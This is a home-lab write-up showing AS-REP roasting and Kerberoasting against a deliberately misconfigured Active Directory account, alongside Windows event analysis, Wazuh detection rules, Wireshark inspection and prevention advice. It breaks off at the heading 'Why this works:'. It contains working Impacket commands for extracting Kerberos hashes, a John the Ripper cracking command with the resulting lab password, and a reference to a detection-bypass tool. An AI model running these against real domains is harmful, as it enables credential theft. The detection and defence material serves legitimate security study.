AS-REP+Kerberoasting 1
One deliberately vulnerable account exposes two Kerberos credential-access paths. I captured AS-REP roasting and Kerberoasting from KALI, cracked both artifacts offline, traced the KDC events, and tested Wazuh detections against what actually appeared on the wire.
Lab Setup and Kerberos Baseline
First, ensure the domain controller is configured to record Kerberos security events by using auditpol:
auditpol /get /subcategory:"Kerberos Authentication Service"
auditpol /get /subcategory:"Kerberos Service Ticket Operations"

Next, ensure Windows event 4768 (A Kerberos authentication ticket (TGT) was requested.) and 4769 (A Kerberos service ticket was requested.) are being logged by using Get-WinEvent:
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4768,4769} -MaxEvents 5 | Select-Object TimeCreated, Id, MachineName

Kerberos is a network authentication protocol that enables single sign-on in an Active Directory domain. To demonstrate, I created WS02_User on the domain controller and logged into the Windows 11 VM WS02 with those credentials. In the screenshot below, the right side shows klist from WS02, and the corresponding events on the left are from DC01's Security log using the following PowerShell command:
# View the 4768/4769 events for WS02_User in a formatted table
Get-WinEvent -FilterHashtable @{
LogName='Security'; Id=4768,4769; StartTime=(Get-Date).AddMinutes(-30)
} | ForEach-Object {
$x=[xml]$_.ToXml(); $d=@{}; $x.Event.EventData.Data
| ForEach-Object { $d[$_.Name]=$_.'#text' };
[pscustomobject]@{ Time=$_.TimeCreated; Id=$_.Id; User=$d['TargetUserName']; Service=$d['ServiceName']; Enc=$d['TicketEncryptionType']; IP=$d['IpAddress'] }
} | Where-Object { $_.User -like 'WS02_User*' }
| Format-Table -AutoSize

AS-REP Roast Setup
WS02_User was modified so that DoesNotRequirePreAuth is $true. A requester can now send an AS-REQ for that username without first proving knowledge of the password-derived key. The KDC returns an AS-REP containing data encrypted with a key derived from the account password, which permits offline password guessing. This does not remove the account password or authenticate the requester as WS02_User; it exposes material that can be tested offline. Those offline guesses do not create failed logons or trigger an account lockout. This makes WS02_User AS-REP roastable.
# View DoesNotRequirePreAuth from a workstation
$uac = ([adsisearcher]"samaccountname=WS02_User").FindOne().Properties['useraccountcontrol'][0]; [PSCustomObject]@{SamAccountName='WS02_User'; DoesNotRequirePreAuth=[bool]($uac -band 0x400000)}
# PreAuthenticationType 0 from DC01 after logging in on the workstation with PreAuth disabled
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4768} -MaxEvents 10
| Where-Object { $_.Message -match 'Pre-Authentication Type:\s+0' }
| Format-List TimeCreated, Message

In the screenshot above, the right side shows DoesNotRequirePreAuth as True on WS02. On the left, the DC01 event shows Pre-Authentication Type: 0 after the WS02_User logon. The zero means the TGT request did not include Kerberos preauthentication. It does not mean the account has no password.
Why does this happen in the real world?
- Some legacy devices, Unix integrations, or custom applications may be configured around authentication behavior that administrators believe requires preauthentication to be disabled.
- Administrators may disable preauthentication while troubleshooting and fail to restore the secure default.
- A migration or inherited service account may preserve the flag long after the original dependency is gone.
Kerberoast Setup
Kerberoasting, on the other hand, targets an account that owns an SPN. An SPN identifies a service instance and maps it to the account under which that service runs. Any authenticated domain user can request a service ticket for that SPN. Part of the returned ticket is protected with the service account's long-term key, commonly derived from its password, which permits offline password guessing without failed logons or account lockout. WS02_User has been assigned an HTTP SPN, which also makes it Kerberoastable.
Using the same account as an interactive workstation user, an AS-REP target, and an SPN-backed service is a compact lab convenience. Production environments should separate human and service identities, and should use a group Managed Service Account where the application supports one.

Why does this happen in the real world?
- Applications sometimes need a domain identity for network authentication, so administrators run a service under a domain user account and register an SPN to it. The risk rises when that account has a human-managed, weak, old, or reused password instead of a long random secret or a gMSA-managed password.
AS-REP Roasting
This walkthrough assumes the attacker has identified 10.10.10.11 as a domain controller and knows the roastable target username. Valid domain credentials are useful here only because GetNPUsers can query LDAP to enumerate accounts with preauthentication disabled. The actual AS-REQ for an identified no-preauthentication account does not require valid domain credentials.
Stage the run directory:
KERB_GATE_RUN_ID="$(date -u +%Y%m%dT%H%M%SZ)"
KERB_GATE_DIR="kerberos-gate-${KERB_GATE_RUN_ID}"
mkdir -p "${KERB_GATE_DIR}"
Start a packet capture that records everything from KALI to DC01 over port 88 (default Kerberos port) and record the PID:
sudo tcpdump -ni eth1 -s0 -w "${KERB_GATE_DIR}/asrep-wire.pcap" \
"host 10.10.10.11 and port 88" & \
KERB_GATE_CAPTURE_PID=$!
Now use the low-privilege TEST_USER1 credentials to query the directory and request AS-REPs for accounts reported as not requiring preauthentication. The credentials support enumeration; they are not required to request an AS-REP for an already known vulnerable username.
AS-REP roasting (automatic enumeration of all accounts that do not require pre-authentication):
impacket-GetNPUsers 'corp.local/TEST_USER1:Password123' \
-dc-ip 10.10.10.11 \
-format hashcat \
-outputfile "${KERB_GATE_DIR}/asrep-hashes.txt" \
-request

Hash obtained. An attacker can use an offline password cracker such as John the Ripper with a candidate wordlist. A successful guess reveals the account password; the captured value is not itself the account's NT hash.
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt "${KERB_GATE_DIR}/asrep-hashes.txt"
john --show --format=krb5asrep "${KERB_GATE_DIR}/asrep-hashes.txt" > "${KERB_GATE_DIR}/asrep-cracked.txt"

Password is Password123.
Stop the packet capture after the request completes:
sudo kill "${KERB_GATE_CAPTURE_PID}"
wait "${KERB_GATE_CAPTURE_PID}" 2>/dev/null || true
What Does DC01 See?
Get-WinEvent -FilterHashtable @{
LogName = 'Security'
Id = 4768
StartTime = (Get-Date).AddMinutes(-15)
} | Format-List *
Results:
Message: A Kerberos authentication ticket (TGT) was requested.
Account Information:
Account Name: WS02_User
Supplied Realm Name: CORP.LOCAL
User ID: S-1-5-21-953532086-3771123788-3498657558-4602
MSDS-SupportedEncryptionTypes: 0x18 (AES128-SHA96, AES256-SHA96)
Available Keys: AES-SHA1, RC4
Service Information:
Service Name: krbtgt
Service ID: S-1-5-21-953532086-3771123788-3498657558-502
MSDS-SupportedEncryptionTypes: 0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)
Available Keys: AES-SHA1, RC4
Domain Controller Information:
MSDS-SupportedEncryptionTypes: 0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)
Available Keys: AES-SHA1, RC4
Network Information:
Client Address: ::ffff:10.10.10.30
Client Port: 33446
Advertized Etypes: RC4-HMAC-NT
Additional Information:
Ticket Options: 0x50800000
Result Code: 0x0
Ticket Encryption Type: 0x12
Session Encryption Type: 0x17
Pre-Authentication Type: 0
Pre-Authentication EncryptionType: 0x0
Certificate Information:
Certificate Issuer Name:
Certificate Serial Number:
Certificate Thumbprint:
Ticket information
Response ticket hash: E7GjUQOjTvL+zyS4N7UBRXq6IqZihgy3RKpfMwqtErE=
Certificate information is only provided if a certificate was used for pre-authentication.
Pre-authentication types, ticket options, encryption types and result codes are defined in RFC 4120.
Id: 4768
Version: 2
Qualifiers:
Level: 0
Task: 14339
Opcode: 0
Keywords: -9214364837600034816
RecordId: 321722
ProviderName: Microsoft-Windows-Security-Auditing
ProviderId: 54849625-5478-4994-a5ba-3e3b0328c30d
LogName: Security
ProcessId: 700
ThreadId: 2308
MachineName: DC01.corp.local
UserId:
TimeCreated: 9/1/2026 12:54:27 PM
ActivityId:
RelatedActivityId:
ContainerLog: Security
MatchedQueryIds: {}
Bookmark: System.Diagnostics.Eventing.Reader.EventBookmark
LevelDisplayName: Information
OpcodeDisplayName: Info
TaskDisplayName: Kerberos Authentication Service
dsDisplayNames: {Audit Success}
Properties: {System.Diagnostics.Eventing.Reader.EventProperty, System.Diagnostics.Eventing.Reader.EventProperty, System.Diagnostics.Eventing.Reader.EventProperty, System.Diagnostics.Eventing.Reader.EventProperty…}
- Client Address identifies KALI at
10.10.10.30, which is unusual for this account in this lab but is contextual evidence rather than proof of an attack. - Advertized Etypes shows that this request offered only RC4-HMAC-NT.
I logged off and back on to WS02 as WS02_User and reran the Get-WinEvent command to compare the Advertised Etypes:

The right side shows a Windows-origin logon by the same deliberately vulnerable account. It is not a secure negative control because WS02_User still has preauthentication disabled, so both requests correctly show Pre-Authentication Type 0. This comparison isolates client behavior: the KALI request offered only RC4, while the Windows request offered the broader set supported by that workstation and its policy. A true secure negative control would re-enable preauthentication, or use an account that already requires it, and should normally show Pre-Authentication Type 2 for password authentication.
What to look for to detect this:
- Successful Event ID 4768 with Pre-Authentication Type
0, which proves that the KDC issued a TGT without preauthentication - Session Encryption Type
0x17and an RC4-only advertised set, which raise priority but do not independently prove roasting - An unusual source for the target account, based on an established account and host baseline
- Repeated requests across several no-preauthentication accounts, especially from one source
In this 4768, Ticket Encryption Type 0x12 describes the TGT encrypted for krbtgt. Session Encryption Type 0x17 describes the algorithm selected for the session key in the issued TGT. Neither field alone directly labels the client-facing AS-REP encrypted portion. The $krb5asrep$23$ artifact and packet capture provide the direct proof that this observed AS-REP used RC4 for the offline-crackable material.
What Does the SIEM See?
I reattempted the AS-REP roast from Kali after building the following Wazuh ruleset:
<group name="windows,kerberos,asreproast,">
<!-- Anchor: a successful 4768 (TGT request) with NO pre-auth, for a real user account. Machine ($) excluded.
4768 is NOT covered by 60106 (logon-success: 528|540|673|4624|4769), so chain the audit-success base 60103. -->
<rule id="100410" level="3">
<if_sid>60103</if_sid>
<field name="win.system.eventID">^4768$</field>
<field name="win.eventdata.status">^0x0$</field>
<field name="win.eventdata.preAuthType">^0$</field>
<field name="win.eventdata.targetUserName" negate="yes" type="pcre2">(?i)\$$</field>
<description>Kerberos TGT requested with NO pre-auth for user $(win.eventdata.targetUserName) from $(win.eventdata.ipAddress)</description>
<mitre><id>T1558.004</id></mitre>
</rule>
<!-- Higher-priority RC4 context. In 4768, ticketEncryptionType 0x12 describes the TGT protected for krbtgt,
while sessionKeyEncryptionType 0x17 records the session-key algorithm. The packet capture and extracted
$krb5asrep$23$ artifact provide direct proof of the RC4 AS-REP material in this run. -->
<rule id="100411" level="10">
<if_sid>100410</if_sid>
<field name="win.eventdata.sessionKeyEncryptionType">^0x17$</field>
<description>Possible AS-REP Roasting (RC4 downgrade): crackable RC4 AS-REP for $(win.eventdata.targetUserName) from $(win.eventdata.ipAddress)</description>
<mitre><id>T1558.004</id></mitre>
</rule>
<!-- Sweep: one source pulls TGTs for many distinct no-preauth users fast (GetNPUsers over a userlist).
Correlates on SOURCE IP because AS-REP roasting needs no authenticated requester. Catches the AES roast too. -->
<rule id="100412" level="12" frequency="4" timeframe="15">
<if_matched_sid>100410</if_matched_sid>
<same_field>win.eventdata.ipAddress</same_field>
<different_field>win.eventdata.targetUserName</different_field>
<description>Possible AS-REP Roasting (sweep): $(win.eventdata.ipAddress) requested 4+ no-preauth user TGTs within 15s</description>
<mitre><id>T1558.004</id></mitre>
</rule>
</group>
Raw JSON from rule 100411 firing. This alert is a high-priority correlation of no preauthentication with RC4 session-key negotiation. The packet capture and extracted hash establish the response's crackable format:
{
"agent": { "name": "DC01" },
"rule": {
"id": "100411",
"level": 10,
"description": "Possible AS-REP Roasting (RC4 downgrade): crackable RC4 AS-REP for WS02_User from ::ffff:10.10.10.30",
"groups": ["windows", "kerberos", "asreproast"],
"mitre": { "id": ["T1558.004"], "technique": ["AS-REP Roasting"], "tactic": ["Credential Access"] }
},
"data": {
"win": {
"system": { "eventID": "4768", "computer": "DC01.corp.local" },
"eventdata": {
"targetUserName": "WS02_User",
"ipAddress": "::ffff:10.10.10.30",
"serviceName": "krbtgt",
"status": "0x0",
"preAuthType": "0",
"clientAdvertizedEncryptionTypes": "RC4-HMAC-NT",
"ticketEncryptionType": "0x12",
"sessionKeyEncryptionType": "0x17"
}
}
},
"timestamp": "2026-09-01T13:40:06.318-0700"
}
Wazuh dashboard:

How To Prevent It From Happening
Set DoesNotRequirePreAuth to $false, identify and replace any legacy dependency that required the exception, and audit the directory for other accounts carrying the flag. Rotate the exposed account password after testing. Strong passwords reduce offline cracking risk, but they are a secondary control; restoring preauthentication removes the AS-REP roasting condition.

Bonus: What Does Wireshark See?
The tcpdump capture from the start of the attack (${KERB_GATE_DIR}/asrep-wire.pcap) recorded the exchange on port 88, so the roast can be read a third way, on the wire, alongside the DC event and the Wazuh alert. Open it in Wireshark and filter for Kerberos:
kerberos
At the Kerberos protocol level, this successful roast needs one AS-REQ and one AS-REP because the account does not require the usual preauthentication challenge. A packet capture can contain more than two physical frames because of DNS, TCP setup, segmentation, retransmission, or unrelated traffic, so identify the matching Kerberos messages rather than assuming an exact packet count.
The AS-REQ (the ask). Filter kerberos.msg_type == 10. This is the attacker asking the KDC for a TGT on behalf of WS02_User:
- The
cnamefield names the target account, WS02_User, with no proof of who is actually asking. - There is no
PA-ENC-TIMESTAMPin the padata. A normal login carries that encrypted timestamp, or is answered withKRB5KDC_ERR_PREAUTH_REQUIREDfirst. Its absence here is the Pre-Authentication Type 0 signature, seen on the wire instead of in the event log. - The requested etype is RC4 only (
eTYPE-ARCFOUR-HMAC-MD5, 23), the downgrade the tool forced.

The AS-REP (the answer). Filter kerberos.msg_type == 11. The KDC returns the ticket, and the part that matters is enc-part: a blob encrypted with a key derived from WS02_User's password, tagged etype 23 (RC4).

What to look for on the wire:
- A bare AS-REQ (
msg_type 10) with noPA-ENC-TIMESTAMPpadata - An etype request of RC4 (23) only
- A matching AS-REP (
msg_type 11) whoseenc-partis tagged etype 23 - A source IP that is not the workstation the named account normally logs in from
Kerberoasting
WS02_User now has Pre-Authentication enabled, but is still registered as an HTTP service with a valid SPN and is therefore still a Kerberoasting target. Kali can attempt to discover any valid user accounts tied to a SPN using the same TEST_USER1 credentials with this command:
impacket-GetUserSPNs 'corp.local/TEST_USER1' \
-dc-ip 10.10.10.11 \
-request \
-outputfile "${KERB_GATE_DIR}/tgs.txt"

WS02_User was found again, but this installed Impacket workflow requested an encryption path the KDC would not issue for the AES-only target, so it returned:
[-] Principal: corp.local\WS02_User - Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
I found this article in an attempt to get around it:
TrustedSec - The Art of Bypassing Kerberoast Detections with Orpheus
Installed Orpheus:

After switching the Encryption to 18 the WS02_User was found again along with the $krb5tgs$18 hash:


Why this works:
